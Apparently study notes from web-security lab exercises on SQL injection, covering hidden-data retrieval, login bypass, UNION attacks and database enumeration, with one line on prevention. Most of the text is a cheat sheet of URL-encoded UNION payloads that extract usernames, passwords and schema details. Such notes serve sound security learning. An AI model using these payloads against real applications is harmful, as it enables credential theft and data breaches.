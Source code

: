 # **SQL Injection** 
### Retrieving hidden data, where can modify an SQL query to return additional results 
[https://insecure-website.com/products?category=Gifts]

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27--]

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1` 

[https://insecure-website.com/products?category=Gifts%27+OR+1=1--]

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` 
### Subverting application logic, where you can change a query to interfere with the application's logic
 If a users credential is wiener:bluecheese 

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` 
### UNION attacks, where you can retrieve data from different database tables 
`SELECT name, description FROM products WHERE category = 'Gifts'` 
`' UNION SELECT username, password FROM users--` 
This will cause the application to return all usernames and passwords along with the names and descriptions of products. Examining the database, where you can extract information about the version and structure of the database 

`SELECT * FROM information_schema.tables` -- what DB table exist 

`SELECT * FROM v$version` -- Oracle version 
### Blind SQL injection, where the results of a query you control are not returned in the applications' responses 
## How to detect SQLi Vuln? 
1. Submitting ' 
2. Submitting SQL-Syntax 
3. Submitting Boolean OR 1=1 OR 1=2 
4. Submitting OAST payload
## Prevent SQLi 
Mostly by using parameterized queries (prepared statements) instead of string concatenation within query (edited)
## Some Useful Commands
###### SQL injection UNION attack, retrieving multiple values in a single column
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
###### SQL injection attack, querying the database type and version on Oracle 
`'+UNION+SELECT+'abc','def'+FROM+dual--`
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
###### SQL injection attack, querying the database type and version on MySQL and Microsoft 
`'+UNION+SELECT+'abc','def'#` 
`'+UNION+SELECT+@@version,+NULL#` 
###### SQL injection attack, listing the database contents on non-Oracle databases 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--` `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` 
###### SQL injection attack, listing the database contents on Oracle 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--` `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--` `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` . 
###### Use the following payload to retrieve the list of tables in the database: 
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` 
###### To get column available in the specified table named 'users_cwrebz' 
`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_cwrebz'--` 
###### To list all available list of tables in a database 
`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`